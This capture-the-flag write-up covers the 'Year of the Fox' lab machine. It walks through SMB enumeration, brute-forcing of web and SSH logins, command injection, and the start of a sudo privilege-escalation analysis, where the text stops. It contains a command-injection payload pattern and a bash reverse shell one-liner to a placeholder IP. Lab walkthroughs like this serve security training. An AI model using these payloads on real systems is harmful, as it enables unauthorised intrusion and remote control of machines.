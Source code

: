 ## ENUMERATION
Starting with an nmap scan as always:
```
PORT      STATE    SERVICE     VERSION
80/tcp    open     http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp   open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
2725/tcp  filtered msolap-ptp2
49159/tcp filtered unknown
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb2-time: 
|   date: 2023-07-11T10:56:50
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
|_clock-skew: mean: -19m57s, deviation: 34m39s, median: 2s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2023-07-11T11:56:49+01:00
```
Taking a look at the webserver first:
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194100.png)

We don't have any credentials to work with for now so let's move on to Samba.

## SAMBA
Use enum4linux to enumerate SMB shares:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20193807.png)

We got 2 users :
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20193917.png)

You can try to bruteforce smb using user fox but its time consuming.
## ACTIVE ENUMERATION
Use hydra to bruteforce web login. It works with user rascal but the password changes everytime we restart the machine.
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194218.png)

The website:
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20160130.png)

Search an empty string and you can see the expected input is files. Also , seems like it doesn't like some characters.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20160520.png)

Intercepting request with Burp:
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20163302.png)

Now , I used intruder to launch a simple SQL injection fuzzing but got nothing. So now onto command injection. You can run some commands using : `{"target":"\"; COMMAND \""}`
Used RCE Command : `bash -i >& /dev/tcp/YOUR-IP/PORT 0>&1` but got invalid-character response so used base 64.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194847.png)

Use burp repeater:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20194710.png)

We gain an RCE:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195039.png)

And there we get our first flag!
## FOOTHOLD
Check all processes which are running:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195224.png)

There seems to be SSH running on port 22 and can be confirmed in `/etc/ssh/sshd_config` file which also tells us that only user fox can use it. We can use this.
Use socat as a TCP port forwarder. Here socat listens on port 2222 , accepts connections and forwards connections to port 22 on remote host.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195606.png)

We've established a connection. Now time to bruteforce :

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195736.png)

Sweet! Now SSH as User fox :

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-10%20195918.png)

And there we have our second flag!
Now see all the commands user fox can run : `sudo -l`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20165345.png)

We can run shutdown as root without password. GTFObins doesn't give anything. Dragging the file onto our machine so we can analyze it.
Use Radare2 :
```
r2 -AAAA /tmp/shutdown
pdg
```
And looks like this binary is calling the `poweroff` binary but also doesn't seem to be using an absolute path.
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20165659.png)
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20165746.png)
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20170230.png)
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20fox/images/Screenshot%202023-07-11%20170314.png)
